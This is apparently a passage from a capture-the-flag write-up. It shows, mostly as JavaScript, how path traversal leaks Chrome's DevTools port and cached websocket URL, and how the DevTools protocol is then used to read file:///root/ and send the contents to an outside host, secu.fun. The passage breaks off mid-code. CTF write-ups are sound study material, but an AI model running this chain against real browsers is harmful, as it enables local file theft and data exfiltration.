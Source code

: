 5) **Recover the /json/list cached file**

```js    
const cacheUrl = `http://localhost/logs../browser_cache/Default/Cache/Cache_Data/${hash}`;
    fetch(cacheUrl)
        .then(response => response.text())
        .then(htmlContent => {[...]});
```

6) **Extract the websocket URL**

The HTML content is a **raw file**, we will need to regex on it to recover the good `ws://` 

```js
// Attempt to extract WS link of our base tab
const regex = /"url"\s*:\s*"([^"]+)"\s*,\s*"webSocketDebuggerUrl"\s*:\s*"([^"]+)"/g;
let match;
while ((match = regex.exec(rawContent)) !== null) {
    const url = match[1];
    const webSocketUrl = match[2];
    if (url === targetPageUrl) {
        [...];
    }
}
```

7) **Finally start the websocket**

```js
// Create a websocket in our site and exploit it to access file:// and then access to the FS ! 
const ws = new WebSocket(targetWebSocketUrl);

ws.onopen = function(event) {
    console.log('WebSocket connection established.');
    ws.send(JSON.stringify({ id: 0, method: 'Page.navigate', params: { url: 'file:///root/' } })); //Load file or folder
    ws.send(JSON.stringify({ id: 1, method: 'Runtime.evaluate', params: { expression: 'fetch(`http://secu.fun:8080/?c=${btoa(encodeURIComponent(document.body.innerHTML))}`)' } }))
};
```


8) **Put it all together**

I add some **obligatory** `timeout` and some debug to the exfiltration site, with this we just pass the 7-second time sleep of the bot !

```js
function fetchAndUsePort() {
    fetch('http://localhost/logs../browser_cache/DevToolsActivePort') // Leak the port, no SOP here
        .then(response => response.text())
        .then(text => {
            const lines = text.split('\n');
            if (lines.length > 0) {
                const port = lines[0].trim();
                const base_url = "http://localhost";
                const WS_urls = `${base_url}:${port}/json/list`

                window.open(WS_urls); // we cache the page of the /json/list, SOP here because of different port
                
                const suffixed_url = `1/0/_dk_${base_url} ${base_url} ${base_url}:${port}/json/list`; // we create the cache_key from the URL
                return getEntryHashKey(suffixed_url);
            } else {
                throw new Error('No port found in the response, maybe clear the cache?');
            }
        })
        .then(hash => {
```